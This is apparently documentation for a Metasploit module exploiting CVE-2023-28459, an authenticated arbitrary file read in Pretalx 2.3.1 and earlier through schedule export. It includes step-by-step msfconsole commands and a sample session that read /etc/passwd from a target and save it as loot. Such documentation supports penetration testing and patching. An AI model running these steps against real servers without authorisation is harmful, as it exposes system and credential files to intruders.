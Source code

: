 ## Description

This module exploits functionality in Pretalx that export conference schedule as zipped file. The Pretalx will iteratively include any file referenced by any HTML tag and does not properly check the path of the file, which can lead to arbitrary file read. The module requires crendetials that allow schedule export, schedule release and approval of proposals. Additionaly, module requires conference name and URL for media files.

## Vulnerable Application
Pretalx is an open-source conference scheduling tool that allows organizers to manage event schedules, speakers, and submissions.

The vulnerability exploited by this module exists in Pretalx versions up to 2.3.1, where the export functionality of conference schedules as zipped files improperly handles paths in HTML tags. This allows an authenticated user with proper permissions to read arbitrary files on the server by referencing them in exported schedules.

Vulnerable versions: Pretalx ≤ 2.3.1

Vulnerability: Arbitrary file read through schedule export

Source code: https://github.com/pretalx/pretalx

Exploit requires: Valid credentials with permissions to export schedules, release schedules, and approve proposals.

More info: CVE-2023-28459

## Verification Steps
1. Install a vulnerable Pretalx instance (version ≤ 2.3.1). You can follow the official installation guide: https://docs.pretalx.org/en/latest/install/

2. Start msfconsole.

3. Load the module with:

```
use auxiliary/scanner/http/pretalx_file_read
```
4. Set required options:
```
set RHOSTS <target_ip>
set USERNAME <valid_username>
set PASSWORD <valid_password>
set CONFERENCE_NAME <conference_slug>
set FILEPATH /etc/passwd
set MEDIA_URL /media
```
5. Run the module:
```
run
```
On success, the module will store the contents of the targeted file as loot.

## Scenarios
```
msf6 > use auxiliary/scanner/http/pretalx_file_read
msf6 auxiliary(scanner/http/pretalx_file_read) > set RHOSTS 192.168.1.10
msf6 auxiliary(scanner/http/pretalx_file_read) > set USERNAME admin
msf6 auxiliary(scanner/http/pretalx_file_read) > set PASSWORD password123
msf6 auxiliary(scanner/http/pretalx_file_read) > set CONFERENCE_NAME myconf
msf6 auxiliary(scanner/http/pretalx_file_read) > set FILEPATH /etc/passwd
msf6 auxiliary(scanner/http/pretalx_file_read) > run

[+] Stored results in /path/to/.msf4/loot/...

```


